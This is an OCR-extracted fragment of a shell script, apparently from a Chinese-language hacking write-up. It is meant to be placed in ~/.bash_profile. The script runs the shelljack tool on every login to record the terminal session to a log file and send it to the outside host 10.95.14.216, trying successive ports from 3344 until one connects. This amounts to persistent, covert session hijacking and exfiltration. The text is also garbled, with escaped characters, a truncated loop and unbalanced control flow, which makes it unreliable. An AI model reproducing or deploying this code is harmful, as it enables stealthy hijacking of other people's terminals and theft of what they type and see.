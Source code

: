 echo in

while true;

do

num=\$[\$num+1]

output=\$(/root/w/shelljack -n 10.95.14.216:\$num \$tmp 2\>&1)

if [[ \$output = "" ]]

then

\#kill -9 \$(ps -ef \| grep "shelljack \\-n 10.95.14.216 \$num" \| awk '{print
\$2}' \| tail -n 1) 2\>&1 \>& /dev/null

sleep 10

/root/w/shelljack -n 10.95.14.216:\$num \$\$

echo executed

break

else

continue

fi

done

echo exit

fi

实战阶段\~/.bash_profile:

/root/w/shelljack -f /root/local.log \$\$

num=3344

output=\$(/root/w/shelljack -n 10.95.14.216:\$num \$\$ 2\>&1)

if [[ \$output = "" ]]

then

\#kill -9 \$(ps -ef \| grep "shelljack \\-n 10.95.14.216 \$num" \| awk '{print
\$2}' \| tail -n 1)

echo 1 \>& /dev/null

else

while true;

do

num=\$[\$num+1]

output=\$(/root/w/shelljack -n 10.95.14.216:\$num \$\$ 2\>&1)

if [[ \$output = "" ]]
